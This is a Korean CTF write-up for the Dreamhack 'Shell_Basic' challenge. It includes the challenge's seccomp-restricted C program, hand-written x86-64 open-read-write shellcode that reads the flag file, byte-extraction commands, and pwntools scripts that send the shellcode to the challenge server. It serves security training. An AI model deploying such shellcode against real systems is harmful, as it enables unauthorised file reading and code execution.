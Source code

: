 ```yaml
---
title: Shell_Basic
author: heogi
date: 2023-10-08
categories:
  - Dreamhack
  - CTF
tags:
  - system
  - shellcode
  - ORW
comments: true
---
```

## Description

> 입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.  
> main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.  
> flag 파일의 위치와 이름은 /home/shell\_basic/flag\_name\_is\_loooooong입니다.  
> 감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!  
> 플래그 형식은 DH{...} 입니다. DH{ 와 }도 모두 포함하여 인증해야 합니다.

## **프로그램 분석**

![](../assets/img/Pasted%20image%2020240413005132.png)

문제에서 제시된 프로그램을 실행하면 Shellcode를 입력받는다.

포함되어있는 소스를 보면 쉘코드를 받아서 실행을 해준다.

```c
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

execve, execveat 함수는 사용하지 못 하도록 되어있어 Flag를 ORW(Open Read Write) 쉘코드를 통해 읽어야한다.

## **ShellCode 작성**

\* shellcode.asm

```
; File name: shellcode.asm
section .text
global _start
_start:
push 0x0
mov rax, 0x676e6f6f6f6f6f6f ; oooooong
push rax
mov rax, 0x6c5f73695f656d61 ; ame_is_l
push rax
mov rax, 0x6e5f67616c662f63 ; c/flag_n
push rax
mov rax, 0x697361625f6c6c65 ; ell_basi
push rax
mov rax, 0x68732f656d6f682f ; /home/sh
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x2
syscall ; Open

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall ;Read

mov rdi, 0x1
mov rax, 0x1
syscall ; Write
```

Flag 파일의 경로는 `/home/shell_basic/flag_name_is_loooooong`로 8 Btye 씩 잘라서 스택에 Push 해준다.

asm을 작성 후 아래 명령어를 통해 쉘코드를 작성한다.

8 Byte 씩 자른 문자열은 아래 명령어를 통해 little endian 방식으로 packing을 진행한다.

```python
>>> p64(int(binascii.hexlify(b"oooooong"),16)).hex()
'676e6f6f6f6f6f6f'
```

```shell
nasm -f elf64 shellcode.asm
objdump -d shellcode.o
objcopy --dump-section .text=shellcode.bin shellcode.o
hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode.bin
```

패킹을 진행한 쉘코드 바이트를 pwntools를 통해 서버에 입력한다.

```python
from pwn import *

p = remote("host3.dreamhack.games",18477)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05"

p.send(shellcode)
p.interactive()
```

![](../assets/img/Pasted%20image%2020240413005303.png)

아래는 ShellCraft를 통해 작성한 ORW Shellcode 이다.

```python
from pwn import *

context(arch="amd64", os="linux")

p = remote("host3.dreamhack.games",17850)

shellcode = shellcraft.open("/home/shell_basic/flag_name_is_loooooong")
shellcode += shellcraft.read("rax","rsp",100)
shellcode += shellcraft.write(1,"rsp",100)

p.recvuntil("shellcode:")
p.send(asm(shellcode))

print(p.recvline())
```